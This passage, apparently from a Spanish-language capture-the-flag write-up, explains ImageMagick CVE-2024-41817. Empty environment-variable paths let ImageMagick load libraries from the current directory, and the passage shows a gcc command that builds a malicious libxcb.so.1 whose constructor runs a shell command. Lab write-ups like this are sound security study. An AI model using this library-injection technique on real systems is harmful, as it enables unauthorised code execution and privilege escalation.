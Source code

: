 Version de magick:

```
developer@titanic:/opt$ magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

### CVE-2024–41817

Mas Información [aqui](https://mindpatch.medium.com/cve-2024-41817-how-env-var-triggers-rce-in-imagemagicks-appimage-14d54aba5613)

La vulnerabilidad se encuentra en las variables de entorno `MAGICK_CONFIGURE_PATH` y `LD_LIBRARY_PATH`

El problema en Apprun se origina en estas lineas del script:

```
export MAGICK_CONFIGURE_PATH=$(readlink -f "$HERE/usr/lib/ImageMagick-7.0.9/config-Q16"):$(readlink -f "$HERE/usr/lib/ImageMagick-7.0.9/config-Q16HDRI"):$(readlink -f "$HERE/usr/share/ImageMagick-7"):$(readlink -f "$HERE/usr/etc/ImageMagick-7"):$MAGICK_CONFIGURE_PATH

export LD_LIBRARY_PATH=$(readlink -f "$HERE/usr/lib"):$LD_LIBRARY_PATH  
export LD_LIBRARY_PATH=${HERE}/usr/lib/ImageMagick-7.0.9/modules-Q16HDRI/coders:$LD_LIBRARY_PATH
```

Como los directorios no existen, `readlink -f` devuelve una cadena vacía. 

`MAGICK_CONFIGURE_PATH` causando que ImageMagick busque en el directorio actual.

`LD_LIBRARY_PATH` hace posible cargar librerías maliciosa en el directorio actual.

### Librería compartida Maliciosa

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
__attribute__((constructor)) void init(){  
    system("id");  
    exit(0);  
}  
EOF
```

```
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF

developer@titanic:/opt/app/static/assets/images$ ls -l libxcb.so.1
-rwxrwxr-x 1 developer developer 15616 Jul 17 20:33 libxcb.so.1
```
